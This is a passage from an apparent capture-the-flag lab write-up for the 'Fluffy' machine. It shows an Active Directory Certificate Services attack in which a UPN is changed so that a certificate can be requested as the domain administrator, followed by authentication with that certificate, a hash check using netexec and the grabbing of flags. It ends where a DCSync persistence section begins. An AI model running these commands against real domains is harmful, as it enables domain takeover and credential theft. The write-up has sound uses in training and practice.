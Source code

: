 **Step 1**: Update the victim account's UPN to the target administrator's sAMAccountName.

```shell
certipy-ad account -u "$user@$domain" -hashes \:$hash -dc-ip $box -user 'ca_svc' -upn 'administrator' update
```

{{< figure src="/ox-hugo/2025-06-11-071454_.png" >}}

**Step 2**: Request a certificate as the "victim" user from any suitable client authentication template (e.g., "User")

```shell
certipy-ad req -u "ca_svc" -hashes \:$hash -dc-ip $box -target $machine.$domain -ca "fluffy-DC01-CA" -template "User"
```

{{< figure src="/ox-hugo/2025-06-11-071525_.png" >}}

**Step 3**: Revert the "victim" account's UPN.

```shell
certipy-ad account -u "$user@$domain" -hashes \:$hash -dc-ip $box -user 'ca_svc' -upn 'ca_svc@fluffy.htb' update
```

{{< figure src="/ox-hugo/2025-06-11-071909_.png" >}}

**Step 4**: Authenticate as the target administrator.

```shell
certipy-ad auth -username "administrator" -pfx administrator.pfx -domain $domain -dc-ip $box
```

{{< figure src="/ox-hugo/2025-06-11-072016_.png" >}}

Let's verify our hash works:

```shell
netexec smb $box -u $user -H $hash --shares
```

{{< figure src="/ox-hugo/2025-06-11-072216_.png" >}}

We actually never got our flags so let's grab those.
First let's grab the root flag
![](/ox-hugo/2025-06-11-072345_.png)

Second, let's grab our user flag, it was for the winrm_svc user which tracks as that user was part of the remote users group.
![](/ox-hugo/2025-06-11-072642_.png)


## 5. Persistence: {#5-dot-persistence}


### Dumping NTDS.dit/DCSync attack: {#dumping-ntds-dot-dit-dcsync-attack}

Perform DCSync attack using netexec:

